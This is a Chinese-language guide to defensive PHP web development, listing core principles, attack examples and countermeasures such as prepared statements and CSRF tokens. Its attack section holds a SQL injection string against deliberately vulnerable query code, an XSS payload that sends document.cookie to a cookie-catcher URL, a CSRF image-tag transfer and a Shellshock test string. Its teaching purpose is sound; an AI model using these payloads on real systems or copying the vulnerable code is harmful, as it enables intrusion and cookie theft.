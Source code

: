 # PHP防禦性開發指南

本篇重點在PHP網路應用程式開發上

待補完

授權方式 [CC: BY-SA](https://creativecommons.org/licenses/by-sa/3.0/tw/legalcode) 

## 核心概念

*   最小權限原則
*   永遠不要信任使用者輸入
*   留心輸出
*   留意系統邊界
*   沒有打不穿的系統，只有做了多少準備

## 攻擊範例

**SQL Injection**

[](http://140.121.80.184/tmpPHP/20151215work5.php)[http://140.121.80.184/tmpPHP/20151215work5.php](http://140.121.80.184/tmpPHP/20151215work5.php)

       s2' AND 1=1 -- 

       $sql = "select * from userData where account='$_POST[$s_name]' and password=password('$_POST[$s_pw]')";

**XSS**

PHP這樣寫

```   
   <?php
   $name = $_GET['name'];
   echo "Welcome $name<br>";
   echo "<a href="[](http://xssattackexamples.com/)[http://xssattackexamples.com/](http://xssattackexamples.com/)">Click to Download</a>";
   ?>
```
但是...

       index.php?name=guest<script>alert('attacked')</script>

駭客這麼做

       document.location= "[](http://www.example.com/cookie_catcher.php?c=)[http://www.example.com/cookie_catcher.php?c=](http://www.example.com/cookie_catcher.php?c=)" + document.cookie

**CSRF**

著名範例：Microsoft MySpace worm

[](https://en.wikipedia.org/wiki/Samy_(computer_worm))[https://en.wikipedia.org/wiki/Samy_(computer_worm](https://en.wikipedia.org/wiki/Samy_(computer_worm))

[](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)[https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)

>   假如一家銀行用以執行轉帳操作的URL地址如下： [](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)[http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)
<br>   那麼，一個惡意攻擊者可以在網站上放置如下代碼： <img src="[](http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman)[http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman](http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman)">
<BR>   如果有賬戶名為Alice的用戶訪問了惡意站點，而她之前剛訪問過銀行不久，登錄信息尚未過期，那麼她就會損失1000資金。

**未經檢核的重新導向**

台泥跟goo.gl常被用來隱藏惡意程式位置

**權限控管系統的失敗**

提供API，卻沒有做好權限驗證，直接吐資料出來，或是該過期未過期的Token，或是可以被預測的產生法

[](http://www.freebuf.com/articles/92211.html)[http://www.freebuf.com/articles/92211.html](http://www.freebuf.com/articles/92211.html)

**該死的預設設定**

![](img/damn_default.png)

**函式庫弱點**

CVE-2014 HeartBleed

[](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)[http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)

**語言弱點＆code Injection**

CVE-2014-6271 ShellShock

![](img/shellshock_test_git.png)

       () { :;}; /bin/bash -c "echo testing9123123"; /bin/uname -a

[](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)[http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)

## 應用程序安全風險評量

![](img/app_security.png)

## 防衛重點模組

*   PHP程式
*   資料庫
*   Session & Cookie
*   使用者瀏覽器
*   檔案儲存區
*   架構與架構之間的夾縫

## 常見防禦方式

**對付SQL Injection**

SQL Inject的核心意義是：

對策：Prepared statement

[](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)[http://php.net/manual/en/mysqli.quickstart.prepared-statements.php](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)

```   
/* Prepared statement, stage 1: prepare */
   if (!($stmt = $mysqli->prepare("INSERT INTO test(id) VALUES (?)"))) {
       echo "Prepare failed: (" . $mysqli->errno . ") " . $mysqli->error;
   }
   /* Prepared statement, stage 2: bind and execute */
   $id = 1;
   if (!$stmt->bind_param("i", $id)) {
       echo "Binding parameters failed: (" . $stmt->errno . ") " . $stmt->error;
   }
   if (!$stmt->execute()) {
       echo "Execute failed: (" . $stmt->errno . ") " . $stmt->error;
   }
```

除了避免語句被竄改，也有加速執行重複語句的效果，因為先準備好了SQL語句編譯的部分

**對付CSRF**

對策：token

**XSS**

對策：字串過濾、Escape

[](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

**函式庫ㄖ**

[](http://blog.spoock.com/2016/06/25/weakly-typed-security/)http://blog.spoock.com/2016/06/25/weakly-typed-security/

**語言弱點、伺服器弱點**

對策：留意更新，上線前進行黑白箱測試

## 如何檢核

*   完善設計，重複檢核
*   Unit Test
*   弱點掃描
*   白箱測試
*   黑箱測試
*   隨時更新攻擊資訊

## 攻擊資訊參考

OWASP Top 10 [](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)

USCERT [](https://www.us-cert.gov/)[https://www.us-cert.gov/](https://www.us-cert.gov/)

TWCERT [](http://twcertcc.org.tw/)[http://twcertcc.org.tw/](http://twcertcc.org.tw/)

Security Focus [](http://www.securityfocus.com/)[http://www.securityfocus.com/](http://www.securityfocus.com/)

ExploitDB [](https://www.exploit-db.com/)[https://www.exploit-db.com/](https://www.exploit-db.com/)

DevCore [](http://devco.re/blog/)[http://devco.re/blog/](http://devco.re/blog/)

烏雲網 [](http://www.wooyun.org/)[http://www.wooyun.org/](http://www.wooyun.org/)

VulReport漏洞回報平台 [](https://vulreport.net/)[https://vulreport.net/](https://vulreport.net/)

Hitcon Zeroday 漏洞回報平台 [](https://zeroday.hitcon.org/)https://zeroday.hitcon.org/

各大廠商安全通報mail list (例如ubuntu [](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce)[https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce) )

Hacker Friendly [](http://hacker-friendly.com/)[http://hacker-friendly.com/](http://hacker-friendly.com/)

The Hacker News [](https://www.facebook.com/thehackernews/?fref=ts)[https://www.facebook.com/thehackernews/?fref=ts](https://www.facebook.com/thehackernews/?fref=ts)

## 參考資料